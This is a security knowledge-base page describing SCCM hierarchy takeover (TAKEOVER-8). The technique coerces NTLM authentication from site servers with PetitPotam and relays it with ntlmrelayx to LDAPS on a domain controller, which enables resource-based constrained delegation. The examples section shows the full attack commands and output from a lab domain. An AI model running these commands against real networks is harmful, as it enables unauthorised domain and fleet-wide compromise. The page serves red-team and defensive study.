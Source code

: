 # TAKEOVER-8

## Description
Hierarchy takeover via NTLM coercion and relay HTTP to LDAP on domain controller

## MITRE ATT&CK TTPs
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-8.1: Coerce primary site server 
    - TAKEOVER-8.2: Coerce SMS Provider
    - TAKEOVER-8.3: Coerce passive site server
    - TAKEOVER-8.4: Coerce site database server
- Connectivity from the coercion target to any port on the relay server
- The relay server is in the intranet zone and has a valid NetBIOS name or FQDN (e.g., via ADIDNS poisoning if using a network implant)
- Coercion target settings:
    - The `WebClient` service is installed and started
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
    - Domain computer account is not `is sensitive and cannot be delegated`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Connectivity from the relay server to LDAP or LDAPS on the relay target, the domain controller
- Relay target settings:
    - Either LDAP signing or channel binding is not required on the domain controller
    - `RestrictReceivingNTLMTraffic` = `0` or not present
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target
- For resource-based constrained delegation:
    - Control of an account's SPN
    OR
    - `MachineAccountQuota` > `0` and domain users permitted to add computer accounts

## Summary
An attacker who is able to successfully coerce NTLM authentication from the Active Directory domain computer account for a primary site server, system hosting the SMS Provider role, or passive site server via HTTP and relay it to LDAP on a domain controller can conduct resource-based constrained delegation (RBCD) or shadow credentials attacks to compromise the server, then connect to:
- MSSQL on the site database as the site server or SMS Provider (see TAKEOVER-1)
- SMB on the site database as the site server (see TAKEOVER-2)
- SMB on the SMS Provider as the site server (see TAKEOVER-6)
- SMB on the site database server or an SMS Provider as itself
- SMB on the primary site server as a passive site server, or vice versa (see TAKEOVER-7)

The attacker can use these permissions to grant an arbitrary domain account the SCCM "Full Administrator" role.

## Impact
The "Full Administrator" security role is granted all permissions in Configuration Manager for all scopes and all collections. An attacker with this privilege can execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on. They can also leverage tools such as CMPivot and Run Script to query or execute scripts on client devices in real-time using the AdminService or WMI on an SMS Provider.

## Defensive IDs


## Subtechniques
- TAKEOVER-8.1: Coerce primary site server 
- TAKEOVER-8.2: Coerce SMS Provider
- TAKEOVER-8.3: Coerce passive site server
- TAKEOVER-8.4: Coerce site database server

## Examples
The steps to execute TAKEOVER-8.1 through TAKEOVER-8.4 are mostly the same except that a different system is targeted for coercion of NTLM authentication.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the domain controller and the LDAPS service and specifying options to conduct a resource-based constrained delegation attack:

    ```
    # impacket-ntlmrelayx --no-smb-server --no-wcf-server --no-raw-server -ts -ip <NTLMRELAY_LISTENER_IP> -t ldaps://<DOMAIN_CONTROLLER_IP> --http-port 8080 --no-da --delegate-access
    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-28 20:31:35] [*] Protocol Client MSSQL loaded..
    [2024-02-28 20:31:36] [*] Protocol Client LDAPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client LDAP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client RPC loaded..
    [2024-02-28 20:31:36] [*] Protocol Client HTTPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client HTTP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client IMAP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client IMAPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client SMTP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client SMB loaded..
    [2024-02-28 20:31:36] [*] Protocol Client DCSYNC loaded..
    [2024-02-28 20:31:38] [*] Running in relay mode to single host
    [2024-02-28 20:31:38] [*] Setting up HTTP Server on port 8080

    [2024-02-28 20:31:38] [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the coercion target via HTTP, targeting the relay server's IP address and the specified port:

    ```
    # python3 PetitPotam.py -d MAYYHEM.LOCAL -u lowpriv -p <PASSWORD> <NTLMRELAYX_NETBIOSNAME>@8080/a <COERCION_TARGET_IP>            

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:192.168.57.50[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!

    ```

    After a few seconds, you should receive an HTTP connection on the relay server that is forwarded to the domain controller to execute the RBCD attack:

    ```
    [2024-02-28 21:01:54] [*] HTTPD(8080): Connection from 192.168.57.50 controlled, attacking target ldaps://192.168.57.100
    [2024-02-28 21:01:54] [*] HTTPD(8080): Authenticating against ldaps://192.168.57.100 as MAYYHEM/SITE-SERVER$ SUCCEED
    [2024-02-28 21:01:54] [*] Enumerating relayed user's privileges. This may take a while on large domains
    [2024-02-28 21:01:54] [*] HTTPD(8080): Connection from 192.168.57.50 controlled, but there are no more targets left!
    [2024-02-28 21:01:55] [*] Attempting to create computer in: CN=Computers,DC=MAYYHEM,DC=LOCAL
    [2024-02-28 21:01:55] [*] Adding new computer with username: FCDQZAOC$ and password: OHG^rQ.yl8KcFAC result: OK
    [2024-02-28 21:01:55] [*] Delegation rights modified succesfully!
    [2024-02-28 21:01:55] [*] FCDQZAOC$ can now impersonate users on SITE-SERVER$ via S4U2Proxy
    ```

4. Obtain a service ticket for the created or specified account with an SPN, impersonating the coercion target.

5. Pass the ticket, access the coercion target, escalate to `SYSTEM`, and connect to:
- MSSQL on the site database as a site server or SMS Provider (TAKEOVER-1)
- AdminService on an SMS Provider as a site server (TAKEOVER-2)
- SMB on the site database or an SMS Provider as a site server
- SMB on the site database server or an SMS Provider as itself
- SMB on the site server as a passive site server

## References
- Chris Thompson, Coercing NTLM Authentication from SCCM Servers, https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a
- Elad Shamir, Wagging the Dog: Abusing Resource-based Constrained Delegation to Attack Active Directory, https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
- Garrett Foster, SCCM Hierarchy Takeover with High Availability, https://posts.specterops.io/sccm-hierarchy-takeover-with-high-availability-7dcbd3696b43
